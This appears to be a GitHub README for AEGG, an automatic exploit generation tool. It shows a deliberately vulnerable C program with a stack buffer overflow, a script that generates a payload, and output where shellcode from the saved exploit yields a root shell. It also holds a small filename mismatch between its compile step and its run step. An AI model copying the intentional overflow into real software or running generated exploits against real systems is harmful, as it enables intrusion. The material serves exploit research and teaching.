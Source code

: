 AEGG
----

my automatic exploit generation


Usage
-----

1. vi `vul.c`:
```
#include <stdio.h>
#include <unistd.h>
#include <string.h>

char buf[100];

int sample_func() {
    char name[10] = {0};
    read(0, buf, 307);
    strcpy(name, buf);
    printf("input: %s\n", name);
}

int main(void)
{
    printf("Running...\n");
    sample_func();
    printf("Done.\n");
}
```

2. complie `vul`:
```
gcc vul2.c -o vul2 -m32 -g -z execstack
```

3. vi `my_aegg.py`:
```
from aegg import AEGG

binary = './vul'
gg = AEGG(binary)

# generating payload!
gg.hack()

print repr(gg.payloads)
gg.save()
```


Result
------

```
$ python my_aegg.py
...
INFO    | 2016-06-17 23:44:43,872 | pwnlib.elf | Stack is executable!
[+] Started program './vul'
INFO    | 2016-06-17 23:44:46,974 | pwnlib.tubes.process | Started program './vul'
[*] Stopped program './vul'
INFO    | 2016-06-17 23:44:47,976 | pwnlib.tubes.process | Stopped program './vul'
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Generated!
INFO    | 2016-06-17 23:44:47,980 | aegg.aegg | Completed.
$
$ (cat ./vul.exp; cat) | ./vul
Running...
input: jhh///sh/bin��1�j
                           �̀ÿ @@   @
id
uid=0(root) gid=0(root) groups=0(root)
```


Dependences
-----------

- angr
- pwntools


TODO
----

- AEGG: inputs in exploit_gen instead of paths (for fuzzing)


Reference
---------

[angr-doc/examples/insomnihack_aeg](https://github.com/angr/angr-doc/blob/master/examples/insomnihack_aeg/)
[(State of) The Art of War: Offensive Techniques in Binary Analysis](https://www.cs.ucsb.edu/~vigna/publications/2016_SP_angrSoK.pdf)
[AEG: Automatic Exploit Generation](http://repository.cmu.edu/cgi/viewcontent.cgi?article=1239&context=ece)

